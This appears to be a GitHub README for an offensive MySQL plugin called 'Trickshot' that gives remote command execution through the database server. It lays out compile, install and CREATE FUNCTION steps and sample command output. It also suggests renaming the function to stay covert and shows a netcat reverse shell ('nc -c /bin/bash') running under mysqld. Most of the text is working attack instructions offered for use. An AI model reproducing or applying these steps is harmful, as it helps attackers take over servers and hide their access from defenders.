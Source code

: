 # Trickshot
A MYSQL plugin that allows RCE through the MYSQL Server

# Installation
To install this lovely plugin first you must first compile it to a shared object like below.

```
gcc -I/usr/include/mysql -shared -fPIC -o tg.so trickshot.c
```

Then you must copy the `.so` file to the MYSQL plugin directory like so:

```
cp -f tg.so /usr/lib64/mysql/plugin/
```

Then remove into your MYSQL server and run the following query:

```
CREATE FUNCTION trickshot RETURNS STRING SONAME "tg.so";
```

Note: the `trickshot` portion of the MYSQL command can be swapped out to be more covert. The plugin is now installed.

# Usage
To use this plugin simply run the `trickshot` function inside a MYSQL query. An example is shown below.

```
MariaDB [(none)]> select trickshot("whoami");
+---------------------+
| trickshot("whoami") |
+---------------------+
| mysql               |
+---------------------+
1 row in set (0.04 sec)
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 22077 ?        Ss     0:00 /bin/sh /usr/bin/mysqld_safe --basedir=/usr
 83370 ?        Sl     0:00  \_ /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib64/mysql/plugin --log-error=/var/log/mariadb/mariadb.log --pid-file=/var
 83526 ?        S      0:00      \_ sh -c nc -c /bin/bash localhost 4444 2>&1
 83527 ?        S      0:00          \_ nc -c /bin/bash localhost 4444
 83528 ?        S      0:00              \_ /bin/bash
```

# Resources
[The official MYSQL UDF References](https://dev.mysql.com/doc/refman/8.0/en/adding-udf.html)
